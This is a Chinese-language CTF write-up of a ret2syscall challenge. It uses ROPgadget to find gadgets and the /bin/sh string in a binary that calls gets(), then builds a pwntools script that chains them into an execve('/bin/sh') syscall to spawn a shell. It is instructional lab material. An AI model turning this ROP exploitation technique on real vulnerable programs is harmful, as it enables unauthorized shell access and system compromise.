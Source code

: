 ```c
  puts("This time, no system() and NO SHELLCODE!!!");
  puts("What do you plan to do?");
  gets(&v4);
  return 0;
}
```
这里使用程序中的gadgets来getshell，其本质是利用系统调用。需要先把对应的系统调用号参数存放到对应的寄存器中，然后再执行int 0x80就可以实现对系统调用。

这题需要利用`execve("/bin/sh",NULL,NULL)`，其系统调用号是11，十六进制为0xb。其他系统调用可以参考[Linux 32位系统调用表](https://syscalls32.paolostivanin.com/)
- 系统调用号，即 eax 应该为 0xb
- 第一个参数，即 ebx 应该指向 /bin/sh 的地址，其实执 行sh 的地址也可以。
- 第二个参数，即 ecx 应该为 0
- 第三个参数，即 edx 应该为 0

下面就是通过pop把参数存到对应寄存器中，然后用ret再次控制程序的流程，将gadgets串联成payload就可以getshell。

现在可以用ROPgadgets来获取程序中的gadgets，先获取控制eax的gadgets，然后通过一样的方法获取到其他寄存器的gadgets
```bash
gnq@gnq:~/test$ ROPgadget --binary rop --only 'pop|ret' | grep eax
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080bb196 : pop eax ; ret
0x0807217a : pop eax ; ret 0x80e
0x0804f704 : pop eax ; ret 3
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
```
获取程序中/bin/sh的地址
```bash
gnq@gnq:~/test$ ROPgadget --binary rop --string '/bin/sh'
Strings information
============================================================
0x080be408 : /bin/sh
```
获取int 0x80的地址
```bash
gnq@gnq:~/test$ ROPgadget --binary rop --only 'int'
Gadgets information
============================================================
0x08049421 : int 0x80

Unique gadgets found: 1
```
根据系统调用顺序编写攻击脚本
```python
from pwn import *

p=process("./rop")
pop_eax_ret=0x080bb196
pop_edx_ecx_ebx_ret=0x0806eb90
bin_addr=0x080be408
int0x80_addr=0x08049421

payload='a'*112 #padding
payload+=p32(pop_eax_ret)+p32(0xb)+p32(pop_edx_ecx_ebx_ret)+p32(0)+p32(0)+p32(bin_addr)
payload+=p32(int0x80_addr)

p.sendline(payload)

p.interactive()
```
对应栈分步图
